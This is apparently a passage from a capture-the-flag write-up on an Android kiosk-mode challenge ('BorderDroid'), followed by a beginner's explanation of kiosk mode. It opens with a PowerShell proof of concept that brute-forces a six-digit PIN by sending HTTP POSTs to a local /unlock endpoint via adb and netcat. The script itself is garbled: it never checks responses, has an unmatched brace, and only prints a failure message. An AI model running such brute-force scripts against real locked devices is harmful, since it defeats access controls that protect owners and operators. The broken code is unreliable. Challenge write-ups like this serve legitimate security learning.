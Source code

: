 **POC - HTTP Attack (PowerShell):**

```powershell
#!/usr/bin/env pwsh
# Simple HTTP brute force via ADB + netcat

param([int]$StartPin = 0, [int]$EndPin = 999999)

Write-Host "🚀 BorderDroid HTTP Brute Force" -ForegroundColor Cyan

for ($pin = $StartPin; $pin -le $EndPin; $pin++) {
    $paddedPin = $pin.ToString().PadLeft(6, '0')
    $json = "{`"pin`":`"$paddedPin`"}"
    $contentLength = $json.Length
    $escapedJson = $json.Replace('"', '\"')
    
    # Send HTTP POST via netcat
    $cmd = 'printf "POST /unlock HTTP/1.1\r\nHost: localhost:8080\r\nContent-Type: application/json\r\nContent-Length: ' + $contentLength + '\r\n\r\n' + $escapedJson + '" | toybox nc -w 2 localhost 8080'
    $response = adb shell $cmd 2>&1
    
    }
}

Write-Host "❌ No valid PIN found" -ForegroundColor Red
```

---

## n00bies Questions on the way

### 1. What is Kiosk Mode?

**Kiosk Mode** locks an Android device to a single app, preventing access to other apps, settings, or the home screen. It's commonly used for:

- **Point-of-sale terminals** (restaurant ordering tablets)
- **Information kiosks** (museum displays, airport check-in)
- **Border control devices** (like this challenge!)
- **Parental controls** (kids' tablets locked to educational apps)

In Android, kiosk mode is implemented using:

```kotlin
// Start lock task mode
startLockTask()

// User can't:
// - Exit the app
// - Access notifications
// - Use home/back buttons
// - Access quick settings
```
